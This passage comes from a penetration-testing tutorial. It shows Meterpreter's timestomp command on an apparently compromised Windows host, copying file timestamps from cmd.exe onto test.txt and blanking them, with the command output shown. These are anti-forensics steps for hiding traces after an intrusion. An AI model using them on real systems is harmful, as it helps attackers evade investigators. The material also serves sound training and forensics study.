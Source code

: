 Imagine that you created this file. You may want to change it. Now let's try to change this time information. The first way to do this is to copy the time information of another file in the system to the `test.txt` file.

For example, let's copy the time information of the `cmd.exe` file to the `test.txt` time information. To do this, you can execute the following command with the `-f` option.

```bash
meterpreter > timestomp test.txt -f C:\\WINNT\\system32\\cmd.exe
> Setting MACE attributes on test.txt from C:\WINNT\system32\cmd.exe
meterpreter > timestomp test.txt -v
Modified : Tue Dec 07 08:00:00 -0500 1999
Accessed : Sun May 03 05:14:51 -0400 2009
Created : Tue Dec 07 08:00:00 -0500 1999
Entry Modified: Sun May 03 05:11:16 -0400 2009
```

The process is completed. Let's see if it's actually copied.

```bash
File Path: C:\Documents and Settings\P0WN3D\My Documents\test.txt
Created Date: 12/7/1999 7:00:00 AM
Last Accessed: 5/3/2009 3:11:16 AM
Last Modified: 12/7/1999 7:00:00 AM
```

As you can see, the MAC time information of the `test.txt` file is the same as the `cmd.exe` file.

If you are a careful user, you may have noticed that when you look at the file from the Windows command line and the Linux command line, the date information is the same, but the time information is different. This difference is due to the difference in the `timezone` time zones.

It should also be emphasized that the `accessed time` value of the `test.txt` file is immediately updated to the new date since we checked the file information. It would be appropriate to emphasize how variable and important time records are for Windows.

Now let's use a different technique. The `-b` option offered by `timestomp` helps you set the time information to be empty. In the example below, you can see the current state of the file and the time information after the `timestomp test.txt -b` command.

```bash
meterpreter > timestomp test.txt -v
Modified : Tue Dec 07 08:00:00 -0500 1999
Accessed : Sun May 03 05:16:20 -0400 2009
Created : Tue Dec 07 08:00:00 -0500 1999
Entry Modified: Sun May 03 05:11:16 -0400 2009

meterpreter > timestomp test.txt -b
> Blanking file MACE attributes on test.txt
meterpreter > timestomp test.txt -v
Modified : 2106-02-06 23:28:15 -0700
Accessed : 2106-02-06 23:28:15 -0700
Created : 2106-02-06 23:28:15 -0700
Entry Modified: 2106-02-06 23:28:15 -0700
```

As you can see, the files have received time information for the year 2106. While this view is like this from the Meterpreter command line, let's see how it looks in Windows.
